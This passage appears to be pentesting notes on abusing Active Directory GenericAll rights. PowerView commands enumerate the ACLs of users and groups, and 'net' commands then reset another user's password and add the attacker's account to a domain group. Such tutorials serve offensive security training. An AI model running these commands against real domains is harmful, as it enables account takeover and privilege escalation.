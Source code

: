 ## Abusing GenericAll

We'll focus on the GenericAll access right, which gives full control of the targeted object.

To begin, we first enumerate all domain users that our current account has GenericAll right to.

Note : The command bellow will enumerate all ACEs for all domain users, next we will resolve the SID, add it to the output and finnaly filter on usernames that match our current user as set in the $env:UserDomain and $env:Username environment variables :

```PowerShell
PS C:\tools> Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

The GenericAll access right gives us full control over the devservice1 user, which among other things, allows us to change the password of the account without knowledge of the old password :

```PowerShell
net user devservice1 h4x /domain
```

We can also abuse the ForceChangePassword and AllExtendedRights access rights to change the password of a user account in a similar way without supplying the old password.

The command bellow is similar to the previous enumeration, but we will enumerate all domain groups that our current user has explicit access rights.

```
PS C:\tools> Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Since GenericAll gives us full access to the group, we can compromise the group by simply adding ourselves to it 

```
net group devgroup v0lk3n /add /domain
```

As with user accounts, we can also use the AllExtendedRights and GenericWrite access rights in a similar way.
